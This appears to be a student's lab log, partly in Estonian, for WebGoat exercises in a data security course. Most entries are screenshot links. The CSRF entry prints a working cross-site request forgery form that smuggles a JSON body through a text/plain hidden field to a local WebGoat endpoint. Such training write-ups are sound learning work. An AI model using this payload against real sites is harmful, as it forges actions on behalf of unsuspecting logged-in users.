 1-3 Client side) kolm tükki ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/4e4f8a9b-e16b-4b7b-bed6-3f024e56f1d8)<br>
4 SQL Injection intro) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/dd4e4cf4-5b91-4cd8-a4ce-5007e6e60059)<br>
5 Crypto basics) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/88f2f3a5-65fe-4830-a3fe-878531c3503b)<br>
6 Insecure direct object references) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/267f158e-ffb9-4390-ad09-4f357c005a13)<br>
7 XXE) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/9f4fc329-69cd-4a38-bd09-780c72250378)<br>
8 CSRF) Kuna webwolfi .html faili üleslaadimisega on mingi probleem, millele internetist lahendust ei leidnud, siis ei saa seda lõpuni teha, aga postitan lahenduskäigu, mis peaks töötama.
HTML kood, mis failis olema peaks:
127.0.0.1 on minu kali IP.
<form enctype="text/plain" method="POST" action="http:/127.0.0.1:8080/WebGoat/csrf/feedback/message">
	<input type="hidden" name='{"name": "WebGoat", "email": "webgoat@webgoat.org", "content": "WebGoat is the best!!", "ignoreme":"' value='sdfsdfdf"}'>
	<button>submit</button>
</form> 
<br>
![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/95c22a2f-05fd-4956-944a-8c154ecb82d6)


